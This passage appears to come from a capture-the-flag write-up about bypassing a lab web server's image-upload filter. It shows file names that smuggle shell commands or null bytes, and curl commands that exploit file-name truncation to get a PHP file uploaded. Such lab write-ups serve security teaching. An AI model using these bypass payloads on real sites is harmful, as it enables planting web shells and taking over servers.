 If you try to upload something ending in a non-image extension, you get:

![1526345623560](https://0xdfimages.gitlab.io/img/1526345623560.png)

Fails:

  * `http://10.10.15.99:8081/cmd.php'; echo png #` \- error, no upload
  * `http://10.10.15.99:8081/cmd.php';test.png` \- full string at http server
  * `http://10.10.15.99:8081/cmd.php;.jpg` \- gets file, but only full path is accessible
  * `http://10.10.15.99:8081/cmd.php%00.jpg` \- GET request makes it to server, but error there
  * Extension filter not done client side - catching request and modifying doesn’t bypass
  * `http://10.10.15.99:8081/cmd.php%27%3b%20echo%20test%23.png` \- request for full url
  * `http://10.10.15.99:8081/cmd.php #.png`\- invalid url
  * `http://10.10.10.15.99:8081/cmd.php%27%3btest.png` \- http server gets encoded chars in request

#### File Upload Success - File name truncation

The admin’s profile page has a quote, which is actually a hint:

![1526574356091](https://0xdfimages.gitlab.io/img/1526574356091.png)

As far as limits, when submitting an absurdly long name into the system, the
message is a bit different:

![1526400260532](https://0xdfimages.gitlab.io/img/1526400260532.png)

So what is the longest acceptable length?

    
    
    root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*228 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep "The name is too long"
    
    root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*229 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep "The name is too long"
            <pre>The name is too long, 237 chars total.
    

At 237 characters, the full file is still requested at http server:

    
    
    10.10.10.73 - - [15/May/2018 12:22:50] code 404, message File not found
    10.10.10.73 - - [15/May/2018 12:22:50] "GET /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.png HTTP/1.1" 404 -
    

Looking in more detail at the output from 237 character file name:

    
    
    root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*229 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name"
            <pre>The name is too long, 237 chars total.
    Trying to shorten...
    New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.pn.
    